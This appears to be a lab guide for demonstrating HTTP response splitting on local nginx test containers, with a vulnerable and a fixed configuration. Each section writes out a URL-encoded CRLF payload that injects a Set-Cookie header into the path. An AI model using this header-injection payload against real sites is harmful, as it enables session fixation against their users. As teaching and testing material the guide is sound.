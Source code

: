 # Instructions for HTTP Response Splitting testing

## Vulnerable example

1. Start nginx container
    - See instructions: TODO
2. Make GET requests to following paths
   - You can use incognito window to have a clean start 
   ```
   # This is a path without payload
   $ http://whaleback.test.local:90/valaat/whales/1
   
   # This path contains a payload part
   $ http://whaleback.test.local:90/valaat/whales/2%0d%0aSet-Cookie%3Asessiontoken%3D123ABC%3Bpath%3D%2F
   
   # The payload: %0d%0aSet-Cookie%3Asessiontoken%3D123ABC%3Bpath%3D%2F
   # %0d%0a = URL encoded "\r\n" (CRLF)
   # Set-Cookie%3Asessiontoken%3D123ABC%3Bpath%3D%2F = URL encoded "Set-Cookie:sessiontoken=123ABC;path=/" 
   
   # The payload sets a cookie "sessiontoken" with value "123ABC" and sets the path for that cookie to be "/" 
   ```
3. Observe the results
   - Check the cookies before running the first GET request
   - See what kind of requests the browser makes
   - Check what headers the responses of the requests have
   - Check the cookies after the GET request with payload has been sent
4. Make a new GET request to a different path like following and observe the results: 
   ```
   # Use this path
   $ http://whaleback.test.local:90/echorequest
   ```
   - Notice that the request has the cookie set which we set with the request with the payload


## Invulnerable example

1. Start nginx container
    - See instructions: TODO
2. Make GET requests to following paths
   - You can use incognito window to have a clean start 
   ```
   # This is a path without payload
   $ http://catback.test.mau:91/kissat/cats/1
   
   # This path contains a payload part
   $ http://catback.test.mau:91/kissat/cats/2%0d%0aSet-Cookie%3Asessiontoken%3D123ABC%3Bpath%3D%2F
   
   # The payload: %0d%0aSet-Cookie%3Asessiontoken%3D123ABC%3Bpath%3D%2F
   # %0d%0a = URL encoded "\r\n" (CRLF)
   # Set-Cookie%3Asessiontoken%3D123ABC%3Bpath%3D%2F = URL encoded "Set-Cookie:sessiontoken=123ABC;path=/" 
   
   # The payload does not set a cookie 
   ```
3. Observe the results
   - Check the cookies before running the first GET request
   - See what kind of requests the browser makes
   - Check what headers the responses of the requests have
   - Check the cookies after the GET request with payload has been sent
4. Make a new GET request to a different path like following and observe the results: 
   ```
   # Use this path
   $ http://catback.test.mau:91/echorequest
   ```
   - Notice that the request has no cookie set









































































